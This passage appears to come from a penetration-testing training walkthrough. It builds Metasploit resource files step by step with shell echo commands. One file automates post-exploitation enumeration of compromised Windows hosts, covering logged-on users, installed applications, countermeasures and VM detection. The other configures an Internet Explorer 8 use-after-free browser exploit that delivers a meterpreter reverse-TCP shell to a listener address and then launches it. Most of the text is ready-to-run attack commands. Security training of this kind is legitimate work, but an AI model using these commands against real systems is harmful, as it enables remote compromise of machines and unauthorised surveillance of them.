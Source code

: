 meterpreter session under id 1.
 
exit -y
    	



***********************************
* Getting Serious About .rc files *
***********************************


touch /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run getcountermeasure >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run winenum >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run post/windows/gather/enum_applications >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run post/windows/gather/enum_logged_on_users >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run post/windows/gather/checkvm >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
 
 
- Ok, that was fun. Now let's take a quick look at the .rc file we just created.
cat /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
 
 
 
touch /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
 
echo use exploit/windows/browser/ie_cgenericelement_uaf >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set ExitOnSession true >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set URIPATH /ie8 >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set PAYLOAD windows/meterpreter/reverse_tcp >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set LHOST 192.168.153.164 >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc                            

            
 
echo set AutoRunScript multi_console_command -rc /home/strategicsec/toolz/metasploit/autorun-walk-through.rc >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo exploit -j -z >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
 
 
- Ok, that was more fun than the previous one. Now let's take a quick look at the .rc file we just created.
cat /home/strategicsec/toolz/metasploit/autorun-walk-through.rc

cat /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc 
 
- Alright, enough already. Let's run this thing.
./msfconsole -r old-faithful-ie8.rc
